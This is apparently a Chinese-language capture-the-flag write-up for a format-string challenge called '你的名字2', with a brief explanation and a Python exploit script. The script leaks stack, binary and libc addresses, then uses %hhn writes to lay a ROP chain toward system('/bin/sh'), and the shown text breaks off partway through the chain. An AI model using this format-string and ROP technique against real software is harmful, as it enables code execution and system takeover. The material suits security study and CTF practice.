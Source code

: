 
# 你的名字2

这是一道格式化字符串的题目，也是我们第一道保护全开的题目，不过由于格式化字符串的存在，利用起来思路并不复杂：提示中给出了用于生成 %x$hhn 的函数，因此只需要布置好栈上指向目标地址的指针，进而布置 ROP 链即可：

```python
# ===========exp starts===========
current_n = 0
def generate_hhn_payload(distance, hhn_data):
    global current_n
    offset = (distance // 8) + 6
    if hhn_data > current_n:
        temp = hhn_data - current_n
    elif hhn_data < current_n:
        temp = 0x100 - current_n + hhn_data
    elif hhn_data == current_n:
        return b"%" + i2b(offset) + b"hhn"
    current_n = hhn_data
    return b"%" + i2b(temp) + b"c%" + i2b(offset) + b"$hhn"

ru(b":")
sl(input("YOUR TOKEN: ").encode())

ru(b"What's your name?\n");
current_n = 0
payload = b"%40$p.%41$p.%43$p."
sl(payload)
#  input()
stack_buf = int(ru(b".", "drop"), 16) - 0x120
elf_base  = int(ru(b".", "drop"), 16) - 0x1307
libc_base = int(ru(b".", "drop"), 16) - 0x29d90
lg("stack_buf")
lg("elf_base")
lg("libc_base")
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)

pop_rdi_ret = libc_base + 0x000000000002a3e5
ret_addr    = pop_rdi_ret + 1
bin_sh_str  = libc_base + 0x1d8698
system_addr = libc_base + 331104
#  bin_sh_str  = libc_base + next(libc.search(b"/bin/sh\x00"))
#  system_addr = libc_base + libc.sym.system

ru(b"What's your name?\n");
current_n = 0
payload = generate_hhn_payload(0xc0, 2)
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0x118)
sl(payload)
ru(b'? Why is your name so strange? I want your real name!!\n')
current_n = 0
payload = generate_hhn_payload(0xc0,  ( (pop_rdi_ret) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (pop_rdi_ret >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (pop_rdi_ret >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (pop_rdi_ret >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (pop_rdi_ret >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (pop_rdi_ret >> 40) & 0xff ))
```
